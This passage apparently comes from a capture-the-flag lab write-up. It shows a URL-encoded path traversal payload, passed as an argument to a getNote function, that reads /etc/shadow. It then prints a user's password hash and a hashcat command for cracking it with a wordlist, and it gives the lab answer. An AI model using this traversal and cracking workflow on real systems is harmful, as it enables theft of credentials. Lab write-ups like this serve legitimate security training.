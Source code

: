 1. Read /etc/shadow and crack Charlies password.<br>
    After trying many times with BUrp Suite, the payload for read `/etc/shadow` is `..%2f..%2f..%2fetc%2fshadow` (argument for    getNote function).<br>
    ![](images/57.png)<br>
    Send it to the target and receive response.<br>
    ![](images/58.png)<br>
    The charlie's password hash is `$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::`
    Crack with `hashcat`, mode is 1800 (sha512crypt).<br>
    ```
    $ hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt
    ```
    ![](images/59.png)<br>
    **Answer:** password1
